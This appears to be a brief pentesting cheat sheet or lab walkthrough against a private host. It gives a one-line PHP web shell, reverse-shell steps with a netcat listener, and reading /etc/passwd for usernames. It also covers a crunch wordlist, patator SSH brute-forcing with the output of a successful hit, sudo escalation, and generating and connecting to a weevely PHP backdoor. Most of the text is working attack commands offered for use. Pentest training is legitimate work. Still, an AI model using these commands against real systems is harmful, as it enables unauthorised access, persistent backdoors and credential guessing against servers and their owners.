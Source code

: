 # php shell

## web shell

-   Create a new php script
    ```php
    <?php system($_GET['cmd']); ?>
    ```
-   upload to the server
-   open url with the cmd GET parameter

## reverse shell

-   clone [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
-   Change ip and port to your ip and port
-   upload to server
-   listen to the port with `nc -v -n -l -p 8000`
-   start the script by opening the url

## ssh brute force

-   find a potential ssh user
    -   `cat /etc/passwd` => `user:x:1000:1000:Debian Live user,,,:/home/user:/bin/bash`
-   Generate a word list
    -   install crunch `sudo apt install crunch`
    -   `crunch 4 4 evil -o wordlist.txt`
-   Brute force the authentication
    -   install patator `sudo apt install patator`
    -   `patator ssh_login host=192.168.44.130 user=user password=FILE0 0=~/wordlist.txt -x ignore:mesg='Authentication failed.'`
        ```
        13:05:26 patator    INFO -
        13:05:26 patator    INFO - code  size    time | candidate                          |   num | mesg
        13:05:26 patator    INFO - -----------------------------------------------------------------------------
        13:06:17 patator    INFO - 0     39     0.005 | live                               |   229 | SSH-2.0-OpenSSH_5.5p1 Debian-6+squeeze2
        13:06:27 patator    INFO - Hits/Done/Skip/Fail/Size: 1/256/0/0/256, Avg: 4 r/s, Time: 0h 1m 0s
        ```
## ssh login

- `ssh user@192.168.44.130`
- elevation `sudo -s`

## reverse shell weevely

- `sudo apt install weevely python3-distutils`
- generate script `weevely generate 'Pa$$w0rd' shell.php3`
- upload script to server
- listen for connection `weevely http://192.168.44.130/admin/uploads/shell.php3 'Pa$$w0rd'`